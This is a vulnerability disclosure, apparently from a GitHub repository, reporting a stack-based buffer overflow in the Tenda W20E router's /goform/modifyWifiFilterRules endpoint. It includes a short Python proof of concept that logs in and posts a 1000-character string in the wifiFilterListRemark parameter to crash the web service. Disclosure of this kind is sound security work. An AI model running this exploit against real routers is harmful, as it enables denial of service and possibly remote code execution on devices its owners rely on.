


# Vulnerability Report: Stack-based Buffer Overflow in Tenda W20E  Router
A stack-based buffer overflow vulnerability has been identified in the web management interface of the **Tenda W20E** enterprise router . An attacker can trigger this vulnerability by sending a maliciously crafted, overly long string within the `wifiFilterListRemark` parameter to the `/goform/modifyWifiFilterRules` endpoint. Successful exploitation of this flaw can result in a crash of the web service (Denial of Service - DoS) or potentially allow for Remote Code Execution (RCE).

### Vulnerability Details
**Product Information** 

Product:Tenda W20E Enterprise Router

Affected Version: V15.11.0.6

Vulnerability Type: Stack-based Buffer Overflow


### Description:
The vulnerable code path processes HTTP POST requests to the `/goform/modifyWifiFilterRules` endpoint, which is mapped to the internal C function `modifyWifiFilterRules`.

The vulnerability occurs during the construction of a configuration string using the unsafe `sprintf` function. The function retrieves three user-controlled parameters via `websGetVar`: `wifiFileterListIndex`, `wifiFilterListDeviceMAC`, and `wifiFilterListRemark`.



### Poc



```python
import requests
import base64

host = "192.168.0.1"
s = requests.session()

def trigger_overflow():
    encoded_pwd = base64.b64encode(b"aaaa").decode()
    s.post(f"http://{host}/goform/setQuickCfgWifiAndLogin", data={"sysUserPassword": encoded_pwd})
    
    if not s.cookies.get("user"):
        s.cookies.set("user", "admin") 

    url = f"http://{host}/goform/modifyWifiFilterRules"
    payload = "A" * 1000
    
    resp = s.post(url, data={"wifiFilterListRemark": payload}, timeout=5)
    print(resp.content)


```